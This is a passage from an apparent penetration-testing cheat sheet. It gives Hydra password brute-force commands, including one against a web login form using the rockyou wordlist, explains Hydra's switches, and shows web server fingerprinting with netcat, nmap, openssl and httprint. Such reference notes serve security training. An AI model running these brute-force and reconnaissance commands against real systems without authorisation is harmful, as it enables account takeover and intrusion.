     $ hydra -L users.txt -P pass.txt <service://server IP>  <options>
    
    # Stop attacking on finding first successful hit for user admin
    $ hydra -L admin -P pass.txt -f ftp://10.10.10.10 
    
    # Attacking http post form
    $ hydra 10.10.10.10 http-post-form "/login.php:user=^USER^&pass=^PASS^:statement for incorrect login" -L /usr/share/ncrack/minimal.usr -P /etc/john/rockyou.txt -f -V 

Switches to know:

    -t: number of tasks run in parallel
    
    -V: verbose
    
    -f: quit brute-forcing once correct credentials have been found
    
    -L: username or usernames list
    
    -P: password or password list
    
    -s: which port to connect to

## Web Attacks 

### Web Server Fingerprinting

Overall Banner Grabbing using Netcat and Nmap

    nc  192.168.0.11 21  #nc {TARGET_IP} {PORT_NUMBER}
    nmap -sV --script=banner <target>  #nmap

Use netcat for HTTP banner grabbing:

```
$ nc <target addr> 80
HEAD / HTTP/1.0

```

Use OpenSSL for HTTPS banner grabbing:

```
$ openssl s_client -connect target.site:443
HEAD / HTTP/1.0

```

httprint is a web fingerprinting tool that uses  **signature-based**  technique to identify web servers. This is more accurate since sysadmins can customize web server banners.

```
$ httprint -P0 -h <target hosts> -s <signature file>
```
